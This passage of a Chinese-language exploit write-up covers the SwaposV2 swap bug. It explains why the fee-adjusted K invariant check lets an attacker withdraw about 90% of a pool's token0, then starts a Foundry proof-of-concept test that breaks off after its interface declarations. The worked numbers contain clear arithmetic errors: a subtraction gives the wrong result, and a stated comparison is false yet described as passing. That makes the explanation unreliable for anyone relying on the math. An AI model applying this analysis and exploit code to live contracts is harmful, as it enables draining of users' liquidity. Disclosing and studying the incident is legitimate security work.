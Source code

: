 > 根据代码作者的注释, 使用 `getReserves()`函数是为了节省gas. 这骚操作节省得有点贵啊
>
> gas费: https://github.com/wolflo/evm-opcodes/blob/main/gas.md#a5-balance-extcodesize-extcodehash

### require 5

```solidity
uint balance0Adjusted = balance0.mul(10000).sub(amount0In.mul(10));
uint balance1Adjusted = balance1.mul(10000).sub(amount1In.mul(10));
require(balance0Adjusted.mul(balance1Adjusted) >=uint(_reserve0).mul(_reserve1).mul(1000 ** 2),"SwaposV2: K"
);
```

以上面的token0库存（旧值）100， ，存入1， 划走90为例

balance0Adjusted = 1110000 - 1010 = 109000

 假设token1库存100, balance1 = 100

 balance1Adjusted = 100*10000 - 0*10 = 1000000

满足 1090001000000 >= 10010010001000 开绿灯



全部`require`都满足, 那么攻击者的 `SwaposV2.swap(<90% of token0 in the pool>, 0, <address of attacker>, "")` 就不会被revert



## POC

```solidity
// SPDX-License-Identifier: SEE LICENSE IN LICENSE
pragma solidity ^0.8.10;

import "forge-std/Test.sol";

// https://twitter.com/CertiKAlert/status/1647530789947469825
interface IWETH {
    function deposit() external payable;

    function transfer(address to, uint256 value) external returns (bool);

    function approve(address guy, uint256 wad) external returns (bool);

    function withdraw(uint256 wad) external;

    function balanceOf(address) external view returns (uint256);
}

interface ISWP {
    function swap(
        uint amount0Out,
        uint amount1Out,
        address to,
        bytes calldata data
    ) external;

    function getReserves()
        external
        view
        returns (
            uint112 _reserve0,
            uint112 _reserve1,
            uint32 _blockTimestampLast
        );

```